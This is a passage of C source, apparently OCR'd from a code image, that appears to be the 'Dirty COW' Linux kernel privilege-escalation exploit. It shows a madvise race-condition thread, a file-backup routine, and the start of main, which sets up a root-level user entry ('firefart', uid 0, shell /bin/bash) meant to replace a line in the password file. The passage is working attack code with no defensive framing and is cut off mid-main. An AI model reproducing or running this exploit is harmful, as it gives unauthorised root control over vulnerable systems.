 ```c=
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

```